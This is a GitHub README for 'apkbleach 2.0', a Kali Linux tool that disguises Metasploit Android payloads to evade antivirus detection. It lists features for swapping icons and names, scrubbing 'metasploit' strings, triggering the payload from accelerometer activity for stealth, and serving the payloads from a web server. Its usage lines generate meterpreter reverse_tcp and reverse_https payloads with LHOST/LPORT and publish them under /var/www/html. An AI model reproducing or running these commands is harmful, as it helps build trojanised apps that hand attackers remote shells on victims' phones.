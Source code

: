 # apkbleach 2.0

**Update**

   11/24/2020 Fixed custom icon injection bug and jarsigner installation bug! Shout out to @VioletChan on youtube for reporting the bug.

![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2_final.png)

**About:**

This software was developed specifically for Kali-Linux to obfuscate android payloads in attempts to evade detection. This software also automates the process of changing the app icon, changing the app name, signing the apk, aligning the apk and installing or upgrading apktool.

**Youtube instructional video:**

[![Watch the video](https://github.com/graylagx2/images/blob/master/Screenshot%20(24).png)](https://www.youtube.com/watch?v=tqgscJ93LFw)
   
**New Deployment UI feature**

![Screen shot of deployment image](https://github.com/graylagx2/Images/blob/master/apkbleach-deployment-ui.png)

**Features:**

1) User interface for deployment of payloads

2) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

3) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

4) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

5) Renames the application to the name you put chose as the ouput file

6) Scrubs the entire application of any mentions of the name "metasploit" , "stage" or "payload". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

7) Adds padnops to PAYLOAD

8) Signs apk with jarsigner. msfenom produces unsigned apps

9) Zip aligns apk

10) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk
    
    apkbleach -g android/meterpreter/reverse_tcp LHOST=address LPORT=port -s 3 --edit-permissions --deploy-all

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/file.apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
      
      --deploy-all          Deploys each available icon as a payload with the apache2 server with a web interface
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
**Install instructions:**

After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
